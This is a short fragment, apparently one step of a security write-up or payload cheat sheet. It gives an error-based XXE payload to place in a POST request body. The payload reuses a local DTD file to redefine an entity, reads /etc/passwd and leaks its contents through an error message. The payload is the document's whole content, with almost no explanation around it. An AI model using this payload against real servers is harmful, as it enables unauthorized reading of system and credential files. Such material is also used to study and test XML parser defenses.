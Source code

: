  2) We add the below payload in our POST request body

       <!DOCTYPE foo [
		<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
		<!ENTITY % ISOamso '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
		<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		&#x25;eval;
		&#x25;error;
		'>
		%local_dtd;]>		  

---
---
